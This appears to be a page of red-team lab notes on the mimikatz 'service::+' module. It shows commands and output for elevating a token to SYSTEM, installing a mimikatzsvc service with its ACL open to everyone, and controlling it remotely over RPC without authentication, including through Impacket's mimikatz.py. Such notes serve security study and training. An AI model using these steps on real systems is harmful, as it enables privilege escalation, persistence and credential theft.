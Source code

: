 # +

`service::+` installs `mimikatzsvc` by issuing `rpc::server service::me exit`.

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 118309013   hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 118617400   NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

```
mimikatz # service::+
[*] 'mimikatzsvc' service not present
[+] 'mimikatzsvc' service successfully registered
[+] 'mimikatzsvc' service ACL to everyone
[+] 'mimikatzsvc' service started
```

![Successful installation of mimikatzsvc](../../../.gitbook/assets/mimikatz\_svc\_props.png)

The same methods as demonstrated on the `rpc::connect` section can be used to authenticate, without providing a username and password, over RPC:

```
mimikatz # rpc::connect /remote:192.168.0.10 /noauth
[rpc] Remote   : 192.168.0.10
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] Endpoint : (null)
[rpc] Service  : (null)
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no
Algorithm: CALG_3DES (00006603)
Endpoint resolution is OK
mimikatz is bound!

mimikatz # *hostname
Win10.hacklab.local (WIN10)
```

```
# python3 mimikatz.py 192.168.0.10
Impacket v0.9.24.dev1+20210928.152630.ff7c521a - Copyright 2021 SecureAuth Corporation


  .#####.   mimikatz RPC interface
 .## ^ ##.  "A La Vie, A L' Amour "
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Impacket client by Alberto Solino (@agsolino)    * * */


Type help for list of commands
mimikatz # hostname
Win10.hacklab.local (WIN10)
```
